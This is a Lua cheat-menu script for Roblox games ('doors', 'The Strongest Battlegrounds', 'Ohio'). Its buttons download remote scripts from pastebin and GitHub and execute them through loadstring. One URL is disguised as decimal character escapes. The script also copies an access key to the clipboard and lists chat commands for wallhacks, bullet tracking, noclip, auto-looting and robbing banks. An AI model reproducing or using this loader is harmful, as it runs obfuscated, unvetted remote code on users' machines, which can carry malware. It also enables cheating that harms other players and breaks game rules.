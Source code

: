 local Tab = Window:MakeTab({
	Name = "🌈doors🌈",
	Icon = "rbxassetid://7734068321",
	PremiumOnly = false
})

Tab:AddButton({
  Name = "微山",
  Callback = function()
    loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\117\72\72\112\56\102\122\83"))()
  	end
})

local Tab = Window:MakeTab({
	Name = "🤡最强战场🤡",
	Icon = "rbxassetid://7734068321",
	PremiumOnly = false
})

Tab:AddButton({
  Name = "1",
  Callback = function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/LOLking123456/Strongest/main/Battlegrounds77"))()
  end
})

Tab:AddButton({
   Name = "点击复制秘钥",
   Callback = function()
    setclipboard("BestTheStrongest5412Roblox")
   end
})

local Tab = Window:MakeTab({
    Name = "⭐俄亥俄⭐",
    Icon = "rbxassetid://7734068321",
    PremiumOnly = false
})

Tab:AddButton({
    Name = "🐲指令脚本🐲",
    Callback = function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/longshulol/long/main/longshu/Ohio"))()
    end
})

Tab:AddLabel("指令如下（聊天框输入）")
Tab:AddLabel("透开-透关 ---透视")
Tab:AddLabel("追踪开-追踪关 ---子弹追踪")
Tab:AddLabel("收钱开-收钱关 ---收集钱包")
Tab:AddLabel("收物开-收物关 ---收集物品")
Tab:AddLabel("抢取款机开-抢取款机关")
Tab:AddLabel("抢银行开-抢银行关")
Tab:AddLabel("穿墙开-穿墙关")
Tab:AddLabel("拳击光环开-拳击光环关")
